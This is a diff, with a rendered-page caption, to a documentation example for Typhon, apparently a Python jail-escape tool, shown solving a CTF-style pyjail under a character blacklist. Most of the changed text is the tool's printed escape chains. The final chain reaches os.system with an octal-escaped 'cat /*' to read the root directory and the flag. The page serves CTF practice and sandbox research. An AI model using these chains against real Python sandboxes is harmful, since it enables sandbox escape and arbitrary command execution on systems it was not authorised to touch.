

Before and after one commit to Team-intN18-SoybeanSeclab/Typhon, a Sphinx documentation site: the page built from docs/EXAMPLE.rst, in a window 1280 px wide and 1400 px high, scrolled down 8295 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 3.1.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
修正example

```diff
--- a/docs/EXAMPLE.rst
+++ b/docs/EXAMPLE.rst
@@ -455,6 +455,11 @@ Typhon-Sample Pyjail 1
         }
 
         safe_globals = {"__builtins__": whitelist}
+
+- 对 payload 的黑名单限制
+.. code-block:: python
+
+    blackchar = "&*^%#${}@!~`·/<>"
 
 由于这是一道web题目，我们不能控制程序的 stdin （即，类似于 ``input()`` , ``help()`` 的函数在此不适用）。因此，我们将 :attr:`~bypassRCE.interactive` 设置为 ``False``
 
@@ -473,6 +478,7 @@ Typhon-Sample Pyjail 1
                 "Exception": Exception,
             }
         },
+        banned_chr= "&*^%#${}@!~`·/<>",
         interactive=False,
     )
 
@@ -486,34 +492,34 @@ Typhon-Sample Pyjail 1
 
     directly input bypass(0 payload found): None
     generator(3 payloads found): (a for a in ()).gi_frame
-    type(2 payloads found): list.__class__
-    object(6 payloads found): {}.__class__.__mro__[1]
+    type(1 payload found): list.__class__
+    object(4 payloads found): "".__class__.__bases__[0]
     bytes(3 payloads found): list.__class__(''.encode())
-    builtins set(5 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']
+    builtins set(2 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']
     builtins module(0 payload found): None
-    import(6 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']
-    load_module(6 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__loader__'].load_module
-    modules(1 payload found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('sys').modules
-    os(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os')
-    subprocess(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('subprocess')
-    uuid(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('uuid')
-    pydoc(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('pydoc')
-    multiprocessing(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('multiprocessing')
-    builtins(4 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('builtins')
-    codecs(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('codecs')
-    warnings(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('warnings')
-    base64(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('base64')
-    importlib(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('importlib')
-    weakref(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('weakref')
-    reprlib(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('reprlib')
-    sys(4 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('sys')
-    linecache(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('linecache')
-    io(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('io')
-    ctypes(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('ctypes')
-    profile(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('profile')
-    timeit(3 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('timeit')
-    exec(32 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('profile').run
-    __import__2RCE(20 payloads found): {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os').system('cat /*')
+    import(6 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']
+    load_module(6 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__loader__'].load_module
+    modules(1 payload found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('sys').modules
+    os(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os')
+    subprocess(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('subprocess')
+    uuid(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('uuid')
+    pydoc(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('pydoc')
+    multiprocessing(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('multiprocessing')
+    builtins(4 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('builtins')
+    codecs(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('codecs')
+    warnings(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('warnings')
+    base64(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('base64')
+    importlib(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('importlib')
+    weakref(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('weakref')
+    reprlib(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('reprlib')
+    sys(4 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('sys')
+    linecache(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('linecache')
+    io(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('io')
+    ctypes(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('ctypes')
+    profile(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('profile')
+    timeit(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('timeit')
+    exec(32 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('profile').run
+    __import__2RCE(1251 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os').system('\143\141\164 \57\52')
 
 
     -----------Progress-----------
@@ -522,10 +528,10 @@ Typhon-Sample Pyjail 1
     +++++++++++Jail broken+++++++++++
 
 
-    {}.__class__.__mro__[1].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os').system('cat /*')
+    "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os').system('\143\141\164 \57\52')
 
 
-    +++++++++++Jail broken+++++++++++
++++++++++++Jail broken+++++++++++
 
 使用上述 payload 读取根目录下所有文件（包含 ``/flag`` ）。
 
```
Also changed, not shown: other parts of docs/EXAMPLE.rst (+2 -2 lines).
